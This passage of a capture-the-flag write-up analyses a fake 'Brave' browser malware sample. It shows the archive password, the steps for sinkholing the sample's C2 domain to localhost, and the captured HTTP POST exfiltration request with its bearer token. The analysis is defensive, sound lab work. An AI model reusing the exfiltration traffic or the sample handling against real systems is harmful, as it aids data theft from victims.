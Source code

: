 So you can download the `Brave.zip` file and extract it with the given password: `dr4g0nsh34rtb3l0ngst0m4l4k4r`.

## Step 4: analyze the content of Brave.exe

Given the malware description given on Telegram, we suspect the virus will send data externally. So, we'll download the Brave browser, launch the virus in a Windows VM, and open Wireshark to analyze what's happening.

We see that our computer is sending suspicious requests to: `zOlsc2S65u.htb:31337`. So we will edit our hosts file to redirect this domain to our local machine.

On windows, the `C:\Windows\System32\drivers\etc\hosts` file is the one to edit. You can add the following line at the end of the file:

```
127.0.0.1 zOlsc2S65u.htb
```

Then, we can launch a simple HTTP server with the following command:

```sh
python3 -m http.server 31337
```

Now we can launch Wireshark and listen on the `Adapter for loopback traffic capture` interface and launch the malware. We can see a TCP stream with the following content:

```http
POST / HTTP/1.1
Accept: */*
Content-Type: application/json
Authorization: Bearer Token eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcm9tIjoiY29zdGkiLCJjYW1wYWlnbl9pZCI6Ik9wZXJhdGlvbiBFbGRvcmlhIDogRXhwb3NpbmcgdGhlIGJyYXZlcyIsImF1dGgiOiJVMFpTUTJVd1JsRldSamxxVFVjMWVtTkVSbmxPUjAxNFRUTk9abGxxVG05TlZ6VnJXREpKZW1KcVJtNWliRGx6VFVSQ2NrMVhOVzVZTTAxNFpFUk9lbVpSUFQwPSJ9.HelK5pTs6fenv8TKmAPrV3tzhSZm4GEAnEV9vBBtAzg
Content-Length: 2812
User-Agent: Mozilla/5.0 (compatible;MSIE 7.0;Windows;Windows NT 6.3;Win64;x64 Trident/4.0)
Host: zOlsc2S65u.htb:31337
Connection: Close
Cache-Control: no-cache

```